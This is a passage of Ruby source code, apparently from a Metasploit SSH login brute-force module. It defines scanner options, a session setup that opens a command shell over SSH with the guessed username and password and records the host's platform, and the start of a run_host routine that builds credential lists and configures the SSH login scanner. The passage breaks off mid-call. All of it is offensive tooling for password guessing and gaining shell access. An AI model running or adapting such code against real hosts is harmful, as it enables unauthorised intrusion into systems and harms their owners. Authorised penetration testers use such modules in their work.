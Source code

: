```ruby
        OptBool.new('SSH_DEBUG', [false, 'Enable SSH debugging output (Extreme verbosity!)', false]),
        OptInt.new('SSH_TIMEOUT', [false, 'Specify the maximum time to negotiate a SSH session', 30]),
        OptBool.new('GatherProof', [true, 'Gather proof of access via pre-session shell commands', true])
    ]
    )
end

def rport
    datastore['RPORT']
end

def session_setup(result, scanner)
    return unless scanner.ssh_socket

    platform = scanner.get_platform(result.proof)

    # Create a new session
    sess = Msf::Sessions::SshCommandShellBind.new(scanner.ssh_socket)

    merge_me = {
    'USERPASS_FILE' => nil,
    'USER_FILE'     => nil,
    'PASS_FILE'     => nil,
    'USERNAME'      => result.credential.public,
    'PASSWORD'      => result.credential.private
    }
    s = start_session(self, nil, merge_me, false, sess.rstream, sess)
    self.sockets.delete(scanner.ssh_socket.transport.socket)

    # Set the session platform
    s.platform = platform

    # Create database host information
    host_info = {host: scanner.host}

    unless s.platform == 'unknown'
    host_info[:os_name] = s.platform
    end

    report_host(host_info)

    s
end


def run_host(ip)
    @ip = ip
    print_brute :ip => ip, :msg => 'Starting bruteforce'

    cred_collection = build_credential_collection(
    username: datastore['USERNAME'],
    password: datastore['PASSWORD'],
    )

    scanner = Metasploit::Framework::LoginScanner::SSH.new(
    configure_login_scanner(
        host: ip,
        port: rport,
        cred_details: cred_collection,
        proxies: datastore['Proxies'],
```